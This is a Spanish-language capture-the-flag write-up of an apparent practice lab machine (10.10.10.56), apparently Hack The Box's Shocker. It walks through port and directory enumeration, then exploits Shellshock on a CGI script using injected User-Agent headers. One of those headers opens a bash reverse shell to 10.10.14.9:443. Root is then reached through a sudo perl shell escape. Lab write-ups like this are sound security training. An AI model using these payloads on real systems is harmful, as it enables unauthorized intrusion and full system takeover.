
Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS 10.10.10.56
Host is up, received user-set (0.33s latency).
PORT STATE SERVICE REASON
80/tcp open http syn-ack ttl 63
2222/tcp open EtherNetIP-1 syn-ack ttl 63
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p80,2222 10.10.10.56
Host is up (0.28s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| 256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_ 256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Si inspeccionamos el código fuente, vemos que está buscando la imagen desde aquí: http://10.10.10.56/bug.jpg
Vamos a descargarla para ver si tenemos metadatos interesantes:
wget http://10.10.10.56/bug.jpg
exiftool bug.jpg

Realizamos un fuzzing de directorios con dirb:
dirb http://10.10.10.56
Vemos que nos encuentra el directorio /cgi-bin/:

Ahora buscaremos archivos con extensión cgi, sh y php dentro del directorio encontrado. Esta vez, utilizando gobuster:
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x cgi,sh,php

Encontramos el archivo user.sh. Al acceder vemos lo siguiente:

Se va actualizando la hora.
Vamos a validar con el script de nmap si es vulnerable a Shellshock:
nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/cgi-bin/user.sh" 10.10.10.56
Vemos que si:

Intrusión
Para explotar la vulnerabilidad, vamos a capturar la request con Burpsuite. Y reemplazamos el User-Agent por lo siguiente:
User-Agent: () { :; }; echo; echo; /bin/bash -c 'id'
Obtenemos la salida del comando:

Vamos a quedarnos a la escucha con netcat y obtenemos una Reverse Shell de la siguiente forma:
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1'
Al ejecutarlo desde Burpsuite, obtenemos la sesión como el usuario shelly:

Vemos la primera flag:

Escalación de privilegios
Si ejecutamos sudo -l vemos que podemos ejecutar /usr/bin/perl como root sin especificar contraseña:

Apoyándonos en GTFOBins vemos que podemos ejecutar el binario de la siguiente manera para escalar privilegios:
perl -e 'exec "/bin/sh";'
Al hacerlo, somos root y podemos ver la siguiente flag:
